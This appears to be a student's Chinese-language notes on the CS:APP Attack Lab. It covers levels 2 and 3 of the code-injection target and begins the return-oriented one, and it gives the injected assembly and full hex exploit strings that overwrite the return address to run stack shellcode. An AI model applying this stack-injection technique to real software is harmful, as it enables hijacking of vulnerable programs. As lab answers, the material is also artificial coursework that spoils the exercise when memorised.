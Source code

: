 <span id = "t2">[**level2**](#c)</span>

- 根据touch2中的信息，得知该level的任务是使%rdi == cookie，其中cookie的值已经给定于cookie.txt中，因此要想办法改变%rdi，但已知的几个函数都不能做到这一步

- 目前的输入可以改变栈中一定范围的内容。我们可以考虑在其中注入代码，然后跳转到这段代码的起始地址，从而改变%rdi，然后进入touch2

- 需要的信息

  1. %rsp和cookie(in cookie.txt)

  2. 改变%rdi值对应的机器代码

- 对于2，可以写出其汇编(.s文件)，然后转为.o文件，再用objdump转为.d文件(讲义appendix B的内容)

  ```assembly
  movq $0x59b997fa, %rdi
  pushq $0x4017ec
  ret
  ```

- 答案如下

  ```assembly
  0x5561dc78:	 48 c7 c7 fa 97 b9 59 68
  			ec 17 40 00 c3 00 00 00		#上一个代码块的内容
  			00 00 00 00 00 00 00 00
  			00 00 00 00 00 00 00 00
  			00 00 00 00 00 00 00 00
  			78 dc 61 55 00 00 00 00
  ```

<span id = "t3">[**level3**](#c)</span>

- touch3调用hexmatch()，cookie==val时通过
  - 我没明白s = cbuf + random() % 100的作用
- 可以使用man ascii获取ascii表
- 注意到hexmatch起始地址开始有三条pushq指令，因此输入的字符串的位置不能在touch3起始地址下，考虑放置在test的栈帧中
- 答案如下

```assembly
0x5561dc78:	48 c7 c7 a8 dc 61 55 68		movq	$0x5561cda8, %rdi
            fa 18 40 00 c3 00 00 00		pushq	0x4018fa
            00 00 00 00 00 00 00 00		ret
            00 00 00 00 00 00 00 00
            00 00 00 00 00 00 00 00
            78 dc 61 55 00 00 00 00		#ret 
0x5561dca8: 35 39 62 39 39 37 66 61		
            00 00 00 00 00 00 00 00		#末尾的'\0'
```

---

### RTARGET

> ​		实际上，正常的程序都会使用栈随机化并设置非执行区域的吧。

<span id = "r1">[level1](#c)</span>

- gadget是什么？
